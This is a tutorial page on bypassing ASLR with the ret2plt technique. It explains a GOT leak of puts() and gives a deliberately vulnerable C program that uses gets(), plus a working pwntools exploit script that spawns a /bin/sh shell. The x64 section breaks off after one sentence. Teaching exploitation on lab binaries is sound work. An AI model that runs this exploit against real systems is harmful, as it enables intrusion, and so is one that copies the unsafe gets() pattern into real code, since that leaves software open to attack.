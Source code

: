```yaml
---
description: 09/20/2023
---
```


# ☠ Bypassing Address Space Layout Randomization (ret2plt)

This will feature x86 and x64-based exploitation.

## Introduction

**Need a refresher on ASLR?**

{% content-ref url="memory-protections/address-space-layout-randomization-aslr.md" %}
[address-space-layout-randomization-aslr.md](memory-protections/address-space-layout-randomization-aslr.md)
{% endcontent-ref %}

<mark style="color:yellow;">Address Space Layout Randomization</mark>, or <mark style="color:yellow;">ASLR</mark> is very similar to PIE.&#x20;

However, it is <mark style="color:yellow;">implemented at the kernel level of the underlying operating system</mark>.

<mark style="color:yellow;">The base address of the string and the functions are going to be randomized with each execution of the binary</mark>.

With <mark style="color:green;">ASLR enabled</mark>, you can visualize this by running `ldd` against your target binary a few times:

<figure><img src="../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### How Does ret2plt Work?

Here, we will be taking advantage of the <mark style="color:yellow;">**ret2plt**</mark> technique that <mark style="color:yellow;">involves calling</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts@plt`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">and passing the GOT entry of</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">as a parameter</mark>.

This will cause <mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">to print out its own address in</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`libc`</mark>.

* How cool is that?!

This will allow us to leak the ASLR base. Essentially, we need to craft a payload that leaks the real address of `puts()`.&#x20;

As we learned in [overwriting-global-offset-table-got.md](overwriting-global-offset-table-got.md "mention"), <mark style="color:yellow;">we know that calling the PLT entry of the function is the same as calling the function itself</mark>. If we point the parameter to the GOT entry, it will print out it's location/address.

This is because C string arguments for functions take pointers of where the string can be found.

Ultimately, pointing it to the GOT entry will print it out.

### References

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass" %}

{% embed url="https://sharkmoos.medium.com/binary-exploitation-exploiting-ret2libc-328eefb0421b" %}

## Exploitation (x86)

### Source Code

`vuln-32.c`:

```c
#include <stdio.h>

void vuln() {
    puts("Come get me");

    char buffer[20];
    gets(buffer);
}

int main() {
    vuln();

    return 0;
}
```

### Exploit Code

Note: <mark style="color:yellow;">be sure to read the comments embedded in the exploit code to further understand how the exploit is behaving</mark>.

`exploit.py`:

```python
from pwn import *

# Basic pwn template setup
elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

# We need a payload that will leak the actual address of puts()
# Remember, calling the PLT entry of the function is the same as calling the function itself
p.recvline()    # Receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],    # Main??? This is acting as the return address. However, if we set it to something random, it will leak the libc base and crash but if we were to call main() again, we would simply restart the binary.
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))  # The GOT entry will not be the only thing printed. puts() will be. It will be printed as a null-byte. This means it will keep on printing GOT addresses, but we only care about the first one. So, we will grab the first 4 bytes and utilize u32() to interpret them as a little-endian number.
p.recvlines(2) # This means we will ignore the rest of the values as well as the puts() output from calling main() again.

# Next, we will calculate the libc base and perform a ret2libc attack
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC Base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'], # Call system() from libc
    libc.sym['exit'], # Call exit() from libc to exit gracefully. exit() is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00')) # Search for the string "/bin/sh" in libc and append it as an argument to system() found in libc.
)

p.sendline(payload) # Send payload
p.interactive() # Obtain interactive shell
```

## Exploitation (x64)

Here, we can utilize a similar methodology, however since we are working with x64, we will need to utilize ROP gadgets to inject our data into the registers.
